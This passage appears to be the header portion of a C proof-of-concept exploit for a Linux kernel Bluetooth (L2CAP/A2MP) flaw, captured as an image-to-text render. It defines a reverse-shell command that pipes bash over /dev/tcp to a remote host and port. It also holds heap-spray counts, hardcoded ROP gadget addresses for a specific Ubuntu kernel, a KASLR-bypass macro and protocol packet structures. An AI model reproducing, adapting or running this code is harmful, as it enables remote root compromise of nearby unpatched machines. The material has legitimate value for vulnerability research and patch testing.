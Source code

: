     #define REMOTE_COMMAND "/bin/bash -c /bin/bash</dev/tcp/%s/%s"

    // Increase if the heap spray is not reliable.
    #define NUM_SPRAY_KMALLOC_1024 6
    #define NUM_SPRAY_KMALLOC_128 6

    // Increase if stuck at sending packets.
    #define HCI_SEND_ACL_DATA_WAIT_USEC 5000

    #define KERNEL_TEXT_BASE 0xffffffff81000000

    #define KERNEL_UBUNTU_5_4_0_48 1

    #ifdef KERNEL_UBUNTU_5_4_0_48
    #define PUSH_RSI_ADD_BYTE_PTR_RBX_41_BL_POP_RSP_POP_RBP_RET 0xffffffff81567f46
    #define POP_RAX_RET 0xffffffff8103d0b1
    #define POP_RDI_RET 0xffffffff8108efa0
    #define JMP_RAX 0xffffffff8100005b
    #define RUN_CMD 0xffffffff810ce470
    #define DO_TASK_DEAD 0xffffffff810dc260

    #define KASLR_DEFEAT(kaslr_offset, kernel_addr)                                \
      do {                                                                         \
        if ((kernel_addr & 0xfffff) == 0xf4d8e)                                    \
          kaslr_offset = kernel_addr - KERNEL_TEXT_BASE - 0xf4d8e;                 \
        else                                                                       \
          kaslr_offset = kernel_addr - KERNEL_TEXT_BASE - 0xc001a4;                \
      } while (0)
    #else
    #error "No kernel version defined"
    #endif

    #define L2CAP_IDENT 0x41

    #define SIGNALLING_CID 0x01
    #define AMP_MGR_CID 0x03

    typedef struct {
      uint8_t code;
      uint8_t ident;
      uint16_t len;
    } __attribute__((packed)) a2mp_hdr;
    #define A2MP_HDR_SIZE 4

    #define A2MP_COMMAND_REJ 0x01
    typedef struct {
      uint16_t reason;
    } __attribute__((packed)) a2mp_command_rej;

    #define A2MP_INFO_REQ 0x06
    typedef struct {
      uint8_t id;
    } __attribute__((packed)) a2mp_info_req;

    #define A2MP_INFO_RSP 0x07
    typedef struct {
      uint8_t id;
      uint8_t status;
      uint32_t total_bw;
      uint32_t max_bw;
      uint32_t min_latency;
      uint16_t pal_caps;
      uint16_t assoc_size;
    } __attribute__((packed)) a2mp_info_rsp;
